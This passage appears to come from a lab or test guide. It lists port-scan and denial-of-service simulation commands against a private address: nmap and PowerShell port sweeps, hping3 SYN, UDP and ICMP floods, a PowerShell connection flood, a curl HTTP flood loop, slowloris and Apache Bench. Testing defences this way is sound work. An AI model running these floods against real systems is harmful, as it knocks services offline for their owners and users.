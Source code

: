 #### Windows
```powershell
# With nmap (if installed)
nmap -sS 192.168.100.1

# PowerShell native
1..1000 | ForEach-Object -Parallel {
    Test-NetConnection -ComputerName 192.168.100.1 -Port $_ -WarningAction SilentlyContinue
} -ThrottleLimit 100
```

### DDoS Simulation

#### Linux
```bash
# SYN flood
sudo hping3 -S 192.168.100.1 -p 80 --flood

# UDP flood
sudo hping3 --udp 192.168.100.1 -p 53 --flood

# ICMP flood
sudo hping3 --icmp 192.168.100.1 --flood
```

#### Windows
```powershell
# PowerShell SYN flood simulation
1..10000 | ForEach-Object -Parallel {
    $tcp = New-Object System.Net.Sockets.TcpClient
    try { $tcp.Connect("192.168.100.1", 80) } catch {}
    $tcp.Close()
} -ThrottleLimit 1000

# Or use Scapy
python syn_flood.py
```

### HTTP Attack

#### Linux
```bash
# HTTP flood
while true; do
    curl http://192.168.100.1
done

# Slowloris
slowloris 192.168.100.1

# ab (Apache Bench)
ab -n 10000 -c 100 http://192.168.100.1/
```
